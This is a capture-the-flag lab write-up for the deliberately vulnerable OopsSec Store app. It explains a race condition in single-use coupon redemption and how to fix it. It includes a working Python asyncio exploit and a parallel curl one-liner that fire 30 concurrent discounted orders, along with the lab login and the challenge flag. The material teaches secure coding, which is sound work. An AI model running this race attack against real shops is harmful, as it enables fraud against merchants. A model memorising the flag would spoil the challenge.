



The OopsSec Store homepage advertises `FLASHSALE`: 50% off, single-use. Enforcement is a counter check — read `usedCount`, compare to `maxUses`, then increment in a separate query. Nothing holds those two steps together. Send 30 concurrent requests and most of them will read `usedCount = 0`, pass the check, and complete the discounted order before any increment is written. The server detects the overrun and puts the flag in the response.

## Table of contents

## Lab setup

From an empty directory:

```bash
npx create-oss-store oss-store
cd oss-store
npm start
```

Or with Docker (no Node.js required):

```bash
docker run -p 3000:3000 leogra/oss-oopssec-store
```

The app runs at `http://localhost:3000`.

## Target identification

The homepage shows a banner:

> Limited time offer — use code **FLASHSALE** for 50% off your next order

Go to `/checkout` with items in your cart. Expand "Have a promo code?", type `FLASHSALE`, and click **Apply**. The total drops by 50%. You can remove and re-apply the code freely — no database write happens yet. The coupon is consumed only when you click **Complete Payment**.



Place the order, then try to place another with the same coupon code. The second order goes through but the discount is silently ignored — `usedCount` is now 1, at `maxUses`. Sequential use is blocked. Concurrent use is not.



## Understanding the vulnerability

### The TOCTOU pattern

`POST /api/coupon/apply` is a preview-only endpoint — it validates the coupon and returns the discounted total without writing to the database. The coupon is consumed when the order is actually placed.

`POST /api/orders` performs two database operations in sequence:

```typescript
// 1. CHECK — read the current counter
const coupon = await prisma.coupon.findUnique({ where: { code } });

if (coupon.usedCount < coupon.maxUses) {
  // ← all concurrent requests pass this check — they all read usedCount = 0

  // 2. ACT — increment the counter
  const updated = await prisma.coupon.update({
    where: { code: coupon.code },
    data: { usedCount: { increment: 1 } },
  });

  expectedTotal = calculatedTotal * (1 - coupon.discount);
}
```

Each operation is a separate round-trip to the database. Between them, the Node.js event loop is free to handle other requests. If thirty requests all execute step 1 before any of them reaches step 2, they all see `usedCount = 0`, they all pass the check, and they all increment the counter. The counter ends up at 30, even though `maxUses` is 1.

This is a **Time-of-Check Time-of-Use (TOCTOU)** race condition.

### Why the flag appears

After the increment, the endpoint compares the updated counter to `maxUses`:

```typescript
if (updated.usedCount > coupon.maxUses) {
  couponRaceFlag = "OSS{r4c3_c0nd1t10n_c0up0n_4bus3}";
}
```

Any request whose increment pushes `usedCount` above 1 gets the flag in its response. In a successful race, that is most of them.

## Exploitation

### Step 1: Get an authentication token

Log in and capture your `authToken` cookie. The easiest way:

```bash
curl -s -c cookies.txt -X POST http://localhost:3000/api/auth/login \
  -H "Content-Type: application/json" \
  -d '{"email":"alice@example.com","password":"iloveduck"}'

TOKEN=$(grep authToken cookies.txt | awk '{print $NF}')
echo "Token: $TOKEN"
```

### Step 2: Preview the coupon (no counter consumed)

```bash
curl -s -X POST http://localhost:3000/api/coupon/apply \
  -H "Content-Type: application/json" \
  -H "Cookie: authToken=$TOKEN" \
  -d '{"code":"FLASHSALE","cartTotal":100}'
```

```json
{ "discountedTotal": 50, "discountPercent": 50 }
```

Calling it again returns the same response — the counter is untouched. The coupon is consumed only when an order is placed with `couponCode: "FLASHSALE"`.

Add a product to your cart, place one order with the coupon, then try a second: the discount is silently ignored (the coupon is now exhausted). The sequential path is guarded. Now reseed (`npm run db:seed`) and move to the concurrent attack.

### Step 3: Fire concurrent order requests

**Python (asyncio + httpx):**

```python
#!/usr/bin/env python3
"""Race condition exploit: concurrent orders with the same coupon code."""

import asyncio
import httpx

BASE_URL = "http://localhost:3000"
TOKEN = "<your-authToken-here>"
CART_TOTAL = 5.49    # e.g. one Artisan Sourdough Bread — set to your actual cart total
DISCOUNTED  = round(CART_TOTAL * 0.5, 2)  # verify this matches your cart
CONCURRENCY = 30


async def place_order(client: httpx.AsyncClient, idx: int) -> dict:
    r = await client.post(
        f"{BASE_URL}/api/orders",
        json={"total": DISCOUNTED, "couponCode": "FLASHSALE"},
        cookies={"authToken": TOKEN},
    )
    result = r.json()
    result["_req"] = idx
    result["_status"] = r.status_code
    return result


async def main():
    async with httpx.AsyncClient(timeout=10) as client:
        results = await asyncio.gather(
            *[place_order(client, i) for i in range(CONCURRENCY)]
        )

    successes = [r for r in results if r["_status"] == 200]
    flags = [r for r in successes if "flag" in r]

    print(f"Total requests : {CONCURRENCY}")
    print(f"Successes (200): {len(successes)}")
    print(f"Responses with flag: {len(flags)}")

    if flags:
        print(f"\nFlag: {flags[0]['flag']}")
    else:
        print("\nNo flag yet — try increasing CONCURRENCY or reseeding.")


asyncio.run(main())
```

Run it:

```bash
pip install httpx
python3 exploit.py
```

**curl (parallel):**

```bash
TOKEN="<your-authToken-here>"
# total must be the discounted amount (CART_TOTAL * 0.5), e.g. 2.75 for a $5.49 cart
BODY='{"total":2.75,"couponCode":"FLASHSALE"}'

seq 30 | xargs -P30 -I{} curl -s \
  -X POST http://localhost:3000/api/orders \
  -H "Content-Type: application/json" \
  -H "Cookie: authToken=$TOKEN" \
  -d "$BODY"
```

**Burp Suite Intruder:**

Capture a `POST /api/orders` request with `couponCode` in the body, send it to Intruder, set attack type to **Sniper** with a null payload list of 30 entries, enable **Resource pool** → "Maximum concurrent requests: 30". Start attack.

### Step 4: Collect the flag

Multiple responses will look like:

```json
{
  "id": "ORD-007",
  "total": 2.75,
  "status": "PENDING",
  "flag": "OSS{r4c3_c0nd1t10n_c0up0n_4bus3}"
}
```

The flag appears in every response where the post-increment `usedCount` exceeded `maxUses` — usually most of the 30 concurrent requests.



> **Tip:** If the race doesn't fire on the first try, the database may already have `usedCount > 0` from a previous run. Reseed with `npm run db:seed` and try again. A freshly seeded instance with 30 concurrent requests succeeds reliably.

## Vulnerable code analysis

The full handler in `app/api/orders/route.ts`:

```typescript
// Step 1 — separate read (the CHECK)
const coupon = await prisma.coupon.findUnique({
  where: { code: couponCode.toUpperCase() },
});

if (
  coupon &&
  (!coupon.expiresAt || coupon.expiresAt >= new Date()) &&
  coupon.usedCount < coupon.maxUses // ← all 30 concurrent requests pass here
) {
  // Step 2 — separate write (the ACT)
  const updated = await prisma.coupon.update({
    where: { code: coupon.code },
    data: { usedCount: { increment: 1 } }, // ← each increments independently
  });

  expectedTotal = calculatedTotal * (1 - coupon.discount);

  if (updated.usedCount > coupon.maxUses) {
    couponRaceFlag = "OSS{r4c3_c0nd1t10n_c0up0n_4bus3}";
  }
}
```

The two Prisma calls are sequential but not atomic. The Node.js event loop can interleave any number of other requests between them. Because Prisma uses a connection pool and SQLite allows concurrent reads, all 30 `findUnique` calls can complete before any `update` is dispatched.

## Remediation

### Option A — Atomic conditional update (recommended)

Replace the read + write pair with a single `updateMany` that includes the condition in its `WHERE` clause:

```typescript
const updated = await prisma.coupon.updateMany({
  where: {
    code: code.toUpperCase(),
    usedCount: { lt: maxUses },
  },
  data: { usedCount: { increment: 1 } },
});

if (updated.count === 0) {
  return NextResponse.json(
    { error: "Coupon has already been used" },
    { status: 400 }
  );
}
```

This translates to a single `UPDATE … WHERE usedCount < maxUses` statement. The database executes the check and the increment atomically — only one row can match and be updated at a time. All concurrent requests that arrive after the first successful update see `count = 0` and return 400.

### Option B — Explicit transaction

```typescript
const result = await prisma.$transaction(async tx => {
  const coupon = await tx.coupon.findUnique({ where: { code } });

  if (!coupon || coupon.usedCount >= coupon.maxUses) {
    throw new Error("Coupon has already been used");
  }

  return tx.coupon.update({
    where: { code },
    data: { usedCount: { increment: 1 } },
  });
});
```

A transaction prevents other writes from committing between the read and the write within the same transaction boundary. Note that with SQLite's default isolation, `updateMany` (Option A) is still more reliable because it avoids the read entirely.

### Why transactions alone are not always enough

With SQLite in WAL mode (the default), concurrent readers do not block each other. Two transactions can both read `usedCount = 0` before either commits the increment. The conditional `updateMany` sidesteps this because the condition is evaluated at write time by the database engine itself, under its own locking.

For PostgreSQL or MySQL, a transaction with `SELECT … FOR UPDATE` would also work, but the `updateMany` pattern is portable and more idiomatic with Prisma.

Race conditions are easy to miss in a code review — the logic reads correctly when you step through it linearly. The problem only surfaces when you ask: what happens if two requests hit step 1 at the same time? Applying that question to any sequential read-then-write on shared state is a useful habit.

## References

- [CWE-362: Concurrent Execution Using Shared Resource with Improper Synchronization (Race Condition)](https://cwe.mitre.org/data/definitions/362.html)
- [PortSwigger — Race Conditions](https://portswigger.net/web-security/race-conditions)
- [HackerOne #759247 — Race condition on coupon redemption](https://hackerone.com/reports/759247)
